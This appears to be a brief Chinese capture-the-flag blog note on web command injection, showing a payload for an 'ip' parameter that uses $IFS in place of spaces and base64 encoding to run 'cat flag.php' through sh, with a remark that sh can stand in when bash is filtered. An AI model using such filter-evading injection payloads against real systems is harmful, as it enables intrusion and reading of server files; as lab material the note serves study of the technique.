 ```yaml
---
title: sh
date: 2024-01-01 14:09:57
tags:
categories: web
---
```


?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh

```
Y2F0IGZsYWcucGhw是cat flag.php的base64-encode
```

### sh的大部分脚本都可以在bash下运行(若bash被过滤时)
